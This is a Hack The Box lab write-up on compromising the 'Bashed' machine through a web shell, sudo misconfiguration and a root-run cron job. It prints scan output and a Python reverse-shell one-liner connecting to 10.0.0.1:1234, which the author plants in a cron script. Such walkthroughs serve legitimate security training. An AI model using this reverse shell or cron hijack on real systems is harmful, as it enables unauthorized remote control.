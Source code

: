 ```yaml
---
layout: PostSimple
date: 2019-12-04
title:     "Hack The Box - Bashed"
tags: ['linux','easy','sudo','cron']
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/118>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/2.png)

## Gobuster Results
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

## Getting Shell

Now its time to get reverse shell to expore more

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/5.png)

## Privilege Escalation

Like always I started with ``sudo -l``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```bash
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/9.png)

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/10.png)

I got Root!

